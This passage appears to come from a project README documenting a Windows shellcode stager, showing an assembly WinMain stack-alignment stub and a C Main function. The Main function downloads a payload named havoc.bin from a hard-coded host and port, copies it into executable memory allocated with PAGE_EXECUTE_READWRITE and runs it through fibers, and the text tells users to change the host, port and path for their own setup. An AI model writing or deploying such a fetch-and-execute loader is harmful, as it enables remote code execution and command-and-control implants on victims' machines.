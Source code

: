 The code contains custom memory copy functions, ANSI and UNICODE string comparison functions, as well as type casting, which I won't explain here. Its located in src/core/strman.c, src/core/mem.c and exported in include/common.h

## WinMain

WinMain is the function that aligns the stack according to the calling convention. Without this, it would be impossible because it needs to be cleaned and aligned to 16 bytes. To learn more, visit: https://learn.microsoft.com/en-us/cpp/build/stack-usage?view=msvc-170#stack-allocation.

Below, I will show the code responsible for performing the alignment.

```
section .text                  
global WinMain

EXTERN Main
WinMain:                         
    push rsi                      
    mov  rsi, rsp                 
    and  rsp, 0xFFFFFFFFFFFFFFF0  
    sub  rsp, 0x20                
    call Main                     
    mov  rsp, rsi                 
    pop  rsi                      
    ret                           
```

As seen, the Main function is called inside our WinMain.

## Main

The function responsible for handling all functionalities of the code is where we declare the INSTANCE, initialize it, also where we have the Host, Port, Path, and usage of the Http call functions and payload execution. If used, its necessary to change the Host, Port, and Path according to your context.

```c
#include <windows.h>
#include <common.h>
#include <core/win32.h>
#include <core/fibers.h>
#include <core/transport.h>

void Main(){

    INSTANCE Instance = { 0 };
    InitInstance(&Instance);

    WCHAR Host[] = L"192.168.0.101";
    int   Port   = 7777;
    WCHAR Path[] = L"/havoc.bin";

	DWORD Bs;
	PBYTE Bt;
    StagerReceive( Instance, Host, Port, Path, &Bt, &Bs );

	PVOID Addr = Instance.Api.pVirtualAlloc(NULL, Bs, 0x3000, 0x40);
	MemCopy(Addr, Bt, Bs);

    ExecViaFibers( Instance, Addr );

}
```
